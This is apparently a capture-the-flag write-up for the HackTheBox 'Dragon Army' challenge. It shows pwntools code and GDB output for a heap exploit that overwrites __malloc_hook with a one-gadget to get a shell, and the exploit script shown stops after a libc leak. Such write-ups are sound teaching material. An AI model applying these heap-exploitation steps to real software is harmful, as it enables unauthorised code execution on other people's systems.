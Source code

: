 ```python
malloc(0x58, b"\x00"*64 + p64(libc.sym.__malloc_hook-36))
```
- we pad the buffer down with 64 null bytes to reach the top chunk pointer and we use `p64(libc.sym.__malloc_hook-36)` as our relative address which passes the size check.

- we know that the value at the address+8 has to pass the size check, let me show you how i found this value.

- also we know we wanna find a place before the malloc hook so we can overwrite the malloc hook in our next call to malloc so that's why we're subtracting from the malloc hook.

- and we use -36 because 28+8=36.
- below is how i found the value in GDB.
```d
pwndbg> x/gx ((void *)&__malloc_hook)-28 0x7fc6cd3b4b34 
<_IO_wide_data_0+244>:   0x0000000000007fc6
```

```python
malloc(0x50, b"B"*20 + p64(libc.address+0xe1fa1))
```
- now we pad the buffer down until we're writing directly to the malloc hook 

```python
malloc(0x18, b"")
```
- now we just trigger our one gadget with a call to malloc and we drop a shell!

![](https://i.imgur.com/iHtYiYh.png)
- Challenge: `HackTheBox Dragon Army`.
- Solves prior to me: 57, i am the 58th (hooray!).
- This challenge taught me a lot and it was pretty fun!

---
# Our Exploit Code:

```python
from pwn import *  
  
  
elf = context.binary = ELF("da", checksec=True)  
libc = elf.libc  
context.log_level = "debug"  
  
gs = """  
continue"""  
  
def start():  
   if args.GDB:  
       return gdb.debug(elf.path, gdbscript=gs)  
   else:  
       return process(elf.path)  
  
def pause():  
   if args.GDB:  
       io.gdb.interrupt_and_wait()  
  
io = start()  
io.timeout = 1  
  
io.sendafter(b"Cast a magic spell to enhance your army's power: ", b"r3dDr4g3nst1str0f1" + b"A"*38)  
io.recvuntil(b"Army's power has been buffed with spell: r3dDr4g3nst1str0f1" + b"A"*38)  
leak = int.from_bytes(io.recvline().strip(),byteorder="little")  
log.info(f"__GI__IO_fwrite() leak: {leak:#x}")  
  
```